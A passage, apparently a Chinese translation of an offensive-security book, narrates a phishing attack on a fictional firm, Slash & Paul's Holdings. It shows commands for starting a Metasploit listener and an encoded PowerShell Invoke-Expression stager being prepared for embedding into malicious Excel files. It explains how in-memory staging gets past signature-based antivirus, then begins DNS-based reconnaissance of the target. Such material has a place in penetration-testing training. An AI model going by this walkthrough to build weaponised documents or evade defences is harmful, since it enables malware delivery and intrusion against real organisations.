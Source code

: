 ```

这会生成两个文件:
- 执行PowerShell 有效载荷的meter.bat文件
- 一个预先配置的metasploit监听器：meter.rc

我们需要使用以下命令启动监听器:
```
FrontGun$ msfconsole -r meter.rc
```

然后我们可以测试meter.bat文件以确保它正常运行：
![](./Chap2/12.Test-meter-bat.png)

好的，现在要将此有效负载包含在Excel文件中，我们需要人工地深入了解代码。如果打开生成的meter.bat文件，您将看到其唯一目的是找出目标的体系结构并启动相应的PowerShell版本（x86或x64）：
![](./Chap2/13.Code-meter-bat.png)

您可能已经注意到，meter.bat文件还以内联方式调用PS脚本，尽管这种掩饰并没有对命令进行编码。我们可以在VBA中转换该体系结构验证例程，然后从meter.bat文件中借用命令，我们可以开始了。

如果我们想使用Lucky Strike，我们可以假设Excel最有可能在32位进程中运行（大多数情况下是安全的选择），选择适当的代码段，通过删除两个斜杠字符“ \”来进行清理，然后将其保存到一个名为meter.ps1的文件中:
```
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New- Object IO.MemoryStream (,$([Convert]::FromBase64String("nVRtb9s4DP6eX0EYO [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
```

我们执行这个meter.ps1文件来检查它是否仍然可以正常工作。现在我们有了正常的PowerShell文件，我们可以使用Lucky Strike生成适当的恶意Excel文件。

### 2.1.4 摘要
综上所述，我们使用Gophish建立了一个电子邮件发送平台，收集了一些目标员工，并准备了两种功能强大的Excel恶意软件变种，它们很可能能绕过大多数防病毒保护。

关于这种攻击媒介的妙处在于，如果攻击成功（实际上，我们看起来只需要数百名员工中的一个受害者），我们就能进入Greenbox！
![](./Chap2/14.Network.png)

为什么防病毒解决方案不是一个问题呢?

防病毒解决方案主要基于签名来工作：即，文件中被标记为恶意的特定数据包。例如，防病毒软件会标记恶意软件Trojan.Var.A !！通过检查代码中的以下字节序列：0xFC99AADBA6143A。有些编辑器可能具有代码分析，反转，随机性检查等高级功能。但是，实际上，核心引擎主要基于签名。


除了从头开始编码恶意软件的明显替代方案之外，还可以避免与任何已知的恶意软件匹配的特征，这是有关防病毒解决方案的一个重要事实，使它们易于完全绕过。

他们只扫描磁盘上的文件！如果下载恶意文件，则将其写入“下载”文件夹，并立即由防病毒软件扫描并标记。现在，如果同一恶意文件直接注入内存，只要它不接触磁盘，就会触发零警报。

为此，我们可以使用一小段称为暂存器的代码将恶意代码（加密或编码）保存在变量中。然后将该代码注入到内存中新的或已经存在的进程中。这样，就不会在磁盘上写入恶意文件。简而言之，这就是我们的Excel文件正在做什么。

为什么防病毒软件无法检测到暂存器？有时候会这样。但是与真正的恶意软件相反，暂存器只是几行代码，可以很容易地进行调整以逃避所有签名检测.

## 2.2 公众曝光
在等待网络钓鱼诈骗达到目标的同时，我们研究互联网侧以寻找访问SPH基础设施的新颖方法。在下一章中，我们将首先映射它们的所有可见机器及其提供的服务（网站，邮件服务，VPN等），然后奠定我喜欢称之为“寻找小突破的艺术”的基础  - 这种裂缝可能会给我们提供我们正在寻找的即兴邀请。
### 2.2.1.映射公共IP地址
我们的第一个线索（就此而言，这是唯一的线索）是公司的名称：Slash＆Paul’s Holdings。我们可以轻松找到他们的主要网站，这反过来又给我们带来了第二块拼图，即公共DNS记录：sph-assets.com。

但是，使用centralops.net（或domaintools.com），我们可以快速了解到，该网站的IP地址不是SPH拥有，而是Amazon拥有。因此，它不是位于Bluebox中，而是位于SPH数据中心之外的某个黑盒子当中。我们甚至不会费心去调查。
![](./Chap2/15.WhoisRecord.png)

我们如何在Bluebox中找到真实的服务器？这很简单：我们枚举所有可能的DNS名称（* .sph-assets.com），检查其对应的IP地址，并查看centralops.net是否将SLASH＆PAUL HOLDINGS INC列为IP段的所有者。

```